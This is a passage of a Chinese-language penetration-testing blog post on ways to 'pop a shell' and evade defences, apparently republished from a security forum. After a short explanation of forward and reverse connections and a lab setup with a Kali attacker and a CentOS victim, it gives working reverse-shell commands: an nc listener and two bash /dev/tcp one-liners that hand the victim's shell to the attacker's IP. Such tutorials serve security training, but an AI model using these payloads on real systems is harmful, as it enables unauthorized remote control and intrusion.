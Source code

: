 ```yaml
---
title: "渗透测试中弹shell的多种方式及bypass"
date: 2019-07-19T09:24:46+08:00
draft: false
tags: ['shell']
categories: ['渗透测试']
---
```


弹shell的多种方式总结。



> 文章首发先知 https://xz.aliyun.com/t/5768

在我们渗透测试的过程中，最常用的就是基于tcp/udp协议反弹一个shell，也就是反向连接。

我们先来讲一下什么是正向连接和反向连接。

- 正向连接：我们本机去连接目标机器，比如ssh和mstsc
- 反向连接：目标机器去连接我们本机

那么为什么反向连接会比较常用呢

1. 目标机器处在局域网内，我们正向连不上他
2. 目标机器是动态ip
3. 目标机器存在防火墙

然后说一下我的实验环境

虚拟机采用nat模式

攻击机：Kali Linux ：172.16.1.130

受害机：Centos 7 ：172.16.1.134

## 常见姿势

### bash

bash也是最常见的一种方式

Kali监听

```bash
nc -lvvp 4444
```

centos运行

```bash
bash -i >& /dev/tcp/172.16.1.130/4444 0>&1
```

当然你还可以这样

```bash
exec 5<>/dev/tcp/172.16.1.130/4444;cat <&5|while read line;do $line >&5 2>&1;done
```
